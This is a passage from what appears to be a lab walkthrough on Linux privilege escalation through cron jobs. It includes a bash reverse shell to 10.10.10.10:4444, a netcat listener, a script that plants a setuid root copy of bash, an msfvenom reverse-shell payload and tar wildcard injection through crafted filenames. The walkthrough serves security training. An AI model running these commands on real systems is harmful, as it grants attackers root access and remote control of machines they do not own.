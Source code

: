 #!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

nc -nvlp 4444

### cron jobs - path envi variable
Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash

Make sure that the file is executable:

chmod +x /home/user/overwrite.sh

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

/tmp/rootbash -p

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

rm /tmp/rootbash
exit

### cron jobs - wildcards
View the contents of the other cron job script:

cat /usr/local/bin/compress.sh

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf

Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

chmod +x /home/user/shell.elf

Create these two files in /home/user:

touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

